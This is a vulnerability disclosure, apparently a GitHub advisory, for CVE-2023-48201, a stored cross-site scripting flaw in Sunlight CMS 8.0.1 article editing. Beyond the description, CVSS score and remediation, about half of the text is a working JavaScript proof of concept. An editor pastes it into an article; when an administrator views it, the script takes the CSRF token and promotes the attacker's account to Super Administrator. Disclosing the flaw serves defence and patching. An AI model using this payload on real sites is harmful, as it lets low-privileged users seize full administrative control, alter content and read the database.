 # CVE-2023-48201: Stored Cross-Site Scripting (XSS) in Create/Edit Article function in Sunlight CMS 8.0.1 (https://github.com/sunlight-cms/sunlight-cms)

# Vulnerability Type
CWE-79: Cross-site Scripting (XSS) - Stored

# CVSS 8.0 HIGH
CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:H

# Description
A user that is in the 'Editors' group or any group that can create and edit Articles, is able to inject malicious Javascript code to the 'Content' text editor. After the Article is approved and an Administrator or Super Administrator views the Article, the malicious code is executed.

# Execution steps
1. Create the new user 'editor1' and add it to the group 'Editors'.
2. Create an article as the user 'editor1'.
3. Approve the Article as a Super Administrator.
4. Inject the malicious code in the article as user 'editor1'.
5. View the Article as Super Administrator.
6. Verify that the user 'editor1' is added to the 'Super Administrators' group.

# Impact
Stored Cross-Site Scripting vulnerability in Sunlight CMS 8.0.1 allows an authenticated low-privileged user to escalate his privileges. A malicious user that is in the 'Moderators' group or any group that can create/edit Articles can escalate his privileges to any higher level group, including Administrators and Super Administrators without being authorized. The malicious user can then create, edit and delete any content in the CMS, create/edit/delete users with any privilege and read the database using the backup functionality.

# Remediation
Sanitize Article content before inserting it in the database.

# Proof of Concept code
Add the article text in HTML and then add the following code:

```js
<script>
/* Get a CSRF token from the change account form and use it to escalate a user to Super Admin */
var csrf_token;
var xhrGET_users_edit = new XMLHttpRequest();
xhrGET_users_edit.responseType = "document";
xhrGET_users_edit.onreadystatechange = function() {
	if (this.readyState == 4 && this.status == 200) {
		// Typical action to be performed when the document is ready:
		var doc = this.responseXML ;
		csrf_token = doc.getElementsByName("_security_token")[0].value;
		//console.log(csrf_token);
        
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/sunlight\/admin\/index.php?p=users-edit&id=editor1", true);
        xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/avif,image\/webp,image\/apng,*\/*;q=0.8,application\/signed-exchange;v=b3;q=0.7");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.9");
        xhr.withCredentials = true;
        var body = "username=editor1&publicname=editor1&email=editor1%40test.tk&password=&group_id=1&wysiwyg=1&public=1&note=&_security_token="+csrf_token;
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
            aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
	}
};
xhrGET_users_edit.open("GET", "/admin/index.php?p=users-edit&id=editor1", true);
xhrGET_users_edit.send();
</script>
```
